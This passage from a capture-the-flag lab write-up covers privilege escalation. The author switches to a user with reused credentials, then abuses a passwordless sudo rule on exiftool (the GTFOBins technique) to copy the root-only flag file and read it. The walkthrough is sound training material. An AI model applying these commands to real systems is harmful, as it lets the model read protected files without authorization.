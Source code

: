 ## Horizontal Privilege Escalation

Using the creds found earlier to compromise the user **stux**, I easily get the user flag:

```
www-data@ubuntu:/home/stux$ su stux
su stux
Password: [REDACTED]

stux@ubuntu:~$ cat user.txt
cat user.txt
[REDACTED]
```

## Vertical Privilege Escalation

Type `sudo -l` to list the allowed commands for the invoking user (**stux**) and I explore the **exiftool** service:

```
stux@ubuntu:~$ sudo -l
sudo -l
Matching Defaults entries for stux on ubuntu:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User stux may run the following commands on ubuntu:
    (root) NOPASSWD: /usr/local/bin/exiftool
```

Through the GTFOBins, the **exiftool** within **sudo** permission could be exploit by specifying the **target file** to read as **$INPUT** and the destination to write as **$LFILE:**

```
LFILE=file_to_write
INPUT=input_file
sudo exiftool -filename=$LFILE $INPUT
```

Therefore, I declare the **/root/root.txt** as the target file and the **root.txt** in the current location as the written file and get the root flag:

```
stux@ubuntu:~$ sudo /usr/local/bin/exiftool -filename=/home/stux/root.txt /root/root.txt
<cal/bin/exiftool -filename=/home/stux/root.txt /root/root.txt
    1 image files updated

stux@ubuntu:~$ ls -l
ls -l
total 12
-rw-rw-r-- 1 stux stux 268 Sep 30 23:18 exploit.c
-rw-r--r-- 1 root root  46 May 22  2021 root.txt
-rw------- 1 stux stux  46 May 22  2021 user.txt
stux@ubuntu:~$ cat root.txt
cat root.txt
thm{bf52a85b12cf49b9b6d77643771d74e90d4d5ada}
```
